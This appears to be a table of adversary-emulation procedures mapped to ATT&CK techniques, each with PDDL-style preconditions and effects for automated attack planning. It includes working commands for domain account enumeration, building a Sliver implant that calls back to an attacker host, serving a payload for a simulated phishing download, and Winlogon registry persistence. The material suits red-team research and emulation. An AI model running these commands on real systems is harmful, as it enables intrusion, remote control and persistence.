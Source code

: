 | 6fbc9e68-5ad7-444a-bd11-8bf3136c477e | Enumerate all accounts (Domain) | \['T1087.002'\] | ART | \['windows'\] | \['Discovery'\] | \['Account Discovery: Domain Account'\] | Enumerate all accounts<br>Upon exection, multiple enumeration commands will be run and their output displayed in the PowerShell session<br> | {'executor': 'Command Prompt Executor', 'command': 'net user /domain\nnet group /domain\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(user_info_known ?target - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 1b0814d1-bb24-402d-9615-1b20c50733fb | Network Share Discovery PowerShell | \['T1135'\] | ART | \['windows'\] | \['Discovery'\] | \['Network Share Discovery'\] | Network Share Discovery utilizing PowerShell. The computer name variable may need to be modified to point to a different host<br>Upon execution, avalaible network shares will be displayed in the powershell session<br> | {'executor': 'Powershell Executor', 'command': 'get-smbshare\n'} | None | \['(powershell ?executor - executor ?target - host)', '(os_windows ?target - host)'\] | \['(network_share_info_known ?target - host)'\] |
| 0e67b73a-9927-43e1-8f64-04d38f1db57d | Build the executable file of a Sliver implant (for Windows) | \['T1071.001'\] | Manual | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | The command is used in the Sliver C2 (Command and Control) framework to generate a payload designed for remote access to a target machine.<br> | {'executor': 'Sliver Console', 'command': 'sliver > generate --mtls #{LHOST}:#{LPORT} --os windows --arch 64bit --format exe --save #{SAVE_PATH}\nsliver > mtls --lport #{LPORT}\n'} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the generated payload', 'type': None}} | \['(os_windows ?target - host)', '(unallocated ?p - payload)', '(unallocated ?file - file)'\] | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?file - file)', '(file_prepared_local ?file - file)', '(exe_file ?file - file)', '~(unallocated ?p - payload)', '~(unallocated ?file - file)'\] |
| 7480189e-1a4b-45f5-b225-c102915f7262 | Simulate the victim download a file on its machine | \['T1566.002'\] | Manual | \['windows'\] | \['Initial Access'\] | \['Phishing: Spearphishing Link'\] | This step simulates the victim accidentally downloads a malicious file by clicking a link. | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the file on the attacker's machine\n3. Download the file to #{PATH}\n"} | {'LHOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)'\] | \['(file_exists ?path - path ?file - file ?t - host)'\] |
| bf9f9d65-ee4d-4c3e-a843-777d04f19c38 | Winlogon Shell Key Persistence - PowerShell | \['T1547.004'\] | ART | \['windows'\] | \['Persistence', 'Privilege Escalation'\] | \['Boot or Logon Autostart Execution: Winlogon Helper DLL'\] | PowerShell code to set Winlogon shell key to execute a binary at logon along with explorer.exe.<br><br>Upon successful execution, PowerShell will modify a registry value to execute cmd.exe upon logon/logoff.<br> | {'executor': 'Powershell Executor', 'command': 'Set-ItemProperty "HKCU:\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\" "Shell" "explorer.exe, #{binary_to_execute}" -Force\n'} | {'binary_to_execute': {'description': 'Path of binary to execute', 'type': 'path', 'default': 'C:\\Windows\\System32\\cmd.exe'}} | \['(os_windows ?target - host)', '(powershell ?executor - executor ?target - host)', '(file_exists ?binary_to_execute - path ?file - file ?target - host)', '(exe_file ?file - file)'\] | \['(file_execution_at_startup ?file - file ?target - host)'\] |
| f7f31777-1bbf-4ddc-b7a1-af9f46a5299b | Obtain a persistent Sliver Executor | \[None\] | Manual | \['windows', 'linux', 'macos'\] | \['Persistence'\] | \[None\] | Obtain the persistency of Sliver Executor via scheduled payload file execution.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?target - host)', '(file_payload ?p - payload ?f - file)', {'operator': 'or', 'operands': \['(file_execution_at_time ?f - file ?target - host)', '(file_execution_at_startup ?f - file ?target - host)'\]}, '(unallocated ?s - executor)'\] | \['(persistent_sliver_session ?s - executor ?target - host)', '~(unallocated ?s - executor)'\] |